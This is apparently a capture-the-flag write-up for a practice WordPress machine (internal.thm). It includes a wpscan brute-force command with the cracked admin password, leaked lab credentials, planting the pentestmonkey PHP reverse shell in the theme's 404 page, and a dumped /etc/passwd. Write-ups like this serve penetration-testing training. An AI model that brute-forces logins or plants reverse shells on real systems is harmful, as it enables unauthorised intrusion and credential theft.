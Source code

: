 http://internal.thm/blog/readme.html
http://internal.thm/blog/wp-login.php

Using rrs feeds (http://internal.thm/blog/index.php/feed/) we can see the version:
    <generator>https://wordpress.org/?v=5.4.2</generator>

WP version: 5.4.2  // Current version 5.5.3
-- No current exploits or vulnerabilities found.

Lets run wpscan. 
admin user found. Trying to crack it with rockyou.
  wpscan -U admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50 --url internal.thm/blog -o wpscan_rockpass.out
  [!] Valid Combinations Found:
   | Username: admin, Password: my2boys


After being logged, a new post appeared:

    Private:
    To-Do
    Don’t forget to reset Will’s credentials. william:arnold147

But doesn't work anywhere.




## Getting shell

Uploading a reverseshell (https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) in the current theme of the wordpress (i.e. in the 404 page) we can get access as www-data. Let's research.
There is only one user in the server: aubreanna.

  $ cat passwd
  root:x:0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  bin:x:2:2:bin:/bin:/usr/sbin/nologin
  sys:x:3:3:sys:/dev:/usr/sbin/nologin
  sync:x:4:65534:sync:/bin:/bin/sync
  games:x:5:60:games:/usr/games:/usr/sbin/nologin
  man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
  lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
  mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
  news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
  uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
  proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
  www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
  backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
  list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
  irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
  gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
  nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
  systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
  systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
  syslog:x:102:106::/home/syslog:/usr/sbin/nologin
  messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
  _apt:x:104:65534::/nonexistent:/usr/sbin/nologin
  lxd:x:105:65534::/var/lib/lxd/:/bin/false
  uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
  dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
  landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
  pollinate:x:109:1::/var/cache/pollinate:/bin/false
  sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
  aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash
  mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
